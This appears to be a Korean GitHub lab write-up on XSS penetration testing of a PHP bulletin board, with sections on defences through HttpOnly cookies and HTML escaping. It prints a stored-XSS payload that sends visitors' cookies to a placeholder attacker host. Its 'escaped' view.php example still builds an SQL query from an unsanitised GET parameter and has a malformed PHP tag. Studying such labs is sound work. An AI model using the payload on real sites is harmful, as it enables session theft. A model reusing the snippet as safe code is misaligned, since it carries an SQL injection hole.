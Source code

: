 # XSS 모의해킹
 XSS(Cross-Site Scripting) 공격은 악의적인 스크립트를 삽입하여, 해당 웹 사이트의 사용자들이 스크립트를 실행하도록 유도하는 공격입니다.   
 이번 모의해킹에서는 공격자가 악의적인 스크립트를 삽입하여, 해당 웹 사이트에 접속한 사용자들에게 XSS 공격을 수행하는 방법을 다루었습니다.
 
 ## 게시판
 ![게시판 사진](https://github.com/Tree1st/HK/blob/master/webH/image/xss/xss_board.png)
 ![게시글 보기 사진](https://github.com/Tree1st/HK/blob/master/webH/image/xss/xss_view.png)
 해당 웹페이지에서는 게시글을 쓸 수 있으며, 게시글을 클릭하면 게시글을 볼 수 있는 화면이 구현되어있습니다.
 
 ## 공격 실습
 ![xss_test](https://github.com/Tree1st/HK/blob/master/webH/image/xss/XSS_test.png)
 
 현재 웹페이지가 XSS 공격에 취약한지 알아보기 위하여 게시글에 `<script>alert(document.cookie)</script>` 를 입력해 봅니다.
 
 ![xss_test2](https://github.com/Tree1st/HK/blob/master/webH/image/xss/XSS_test2.png)
 
 업로드된 게시글을 클릭하면 다음과같이 현재 사용자의 쿠키가 alert로 뜨는것을 확인 할 수 있습니다. 이는 해당 웹페이지가 XSS 공격에 취약하여 공격이 성공하였음을 알 수 있습니다.
 
 ## Stored XSS
 Stored XSS 공격은 공격자가 웹 사이트에 악성 스크립트를 저장해 놓고, 이를 웹 사이트에 접속한 모든 사용자들이 실행하도록 유도하는 공격입니다.
 
 ![xss_stored](https://github.com/Tree1st/HK/blob/master/webH/image/xss/xss_stored.png)
 
 게시글에 다음과같이 입력합니다.`<script>document.location="http://attacker.ip/?"+document.cookie;</script>` 해당 스크립트는 이 글을 접속하는 유저의 쿠키와 함께 공격자의 서버로 redirect 시킵니다.
 
 ![xss_stored2](https://github.com/Tree1st/HK/blob/master/webH/image/xss/xss_stored2.png)
 
 게시글에 접속하면 공격자의 웹서버로 redirection 되는것을 확인 할 수 있습니다.
 
 ![xss_stored3](https://github.com/Tree1st/HK/blob/master/webH/image/xss/xss_stored3.png)
 
 공격자의 웹서버 로그에서 사용자의 쿠키를 확인 할 수 있습니다.

## 방어 기법
 1. 입력값 검증: 모든 입력값에 대해서 적절한 검증을 통해 유효한 값만을 받아들이고, 악성 스크립트 등을 필터링하여 처리합니다.

 2. HTML 특수 문자 이스케이프: 입력값이 출력되는 곳에서 문자열을 안전한 HTML 형식으로 변환합니다.

## 방어 실습
 ### 쿠키 탈취 방어
 ![php.ini](https://github.com/MLTree2/HK/blob/master/webH/image/xss/httponlyphpini.png)
 
 php.ini 파일의 `session.cookie_httponly = true' 설정을 통하여 쿠키의 속성에 HttpOnly 가 설정된다. HttpOnly 속성이 추가된 쿠키는 자바스크립트등과 같은 언어로 쿠키에 접근하는것을 차단하여 쿠키를 탈취하는것을 불가능하게 합니다.
 
 ![editcookie](https://github.com/MLTree2/HK/blob/master/webH/image/xss/httponly_editcookie.png)
 
 EditThisCookie 툴로 쿠키를 보면 HTTP 전용 란에 체크가 된것을 볼 수 있습니다.
 
 ![httponly_test](https://github.com/MLTree2/HK/blob/master/webH/image/xss/httponly_XSS_test.png)
 
 또한 기존의 XSS_Test 게시글에 접속하여도 쿠키가 뜨지 않는것을 확인할 수 있습니다.
 
 ### HTML 이스케이프
 HTML escaping 이란 HTML에서 사용되는 특수문자를 해당 문자의 HTML 엔티티(entity)로 대체되어 HTML 출력에서 스크립트 실행을 방지하는 것을 말합니다. 대표적으로 다음과같이 치환 됩니다.
 | Escape 전 | Escape 후 |
 |-|-|
 | `&` | `&amp;`|
 | `"` | `&quot;` |
 | `'` |  `&#039;` |
 | `<` | `&lt;` |
 | `>` | `&gt;` |
 
 PHP 에서는 `htmlspecialchars()` 함수를 이용하여 HTML 이스케이핑을 할 수 있습니다. 다음은 해당함수를 이용하여 Escaping 을 적용한 view.php 의 일부 입니다. 
 ```php
<?php
include ("connect.php");

$bid=$_GET["bid"];
$result = $con->query("select * from board where bid=".$bid) or die("query error => ".$mysqli->error);
$rs = $result->fetch_object();
$content = htmlspecialchars($rs->content);
 ... 중략 ...
<p>
 <?php echo $content;>
</p>
...
```
![escape_result](https://github.com/MLTree2/HK/blob/master/webH/image/xss/escape_result.png)

게시글에 XSS를 시도한 HTML 코드가 그대로 적혀있으며 HTML로 확인 시 **`<. >`** 문자열이 **`&lt; , &gt;`** 로 치환된것을 확인할 수 있습니다.

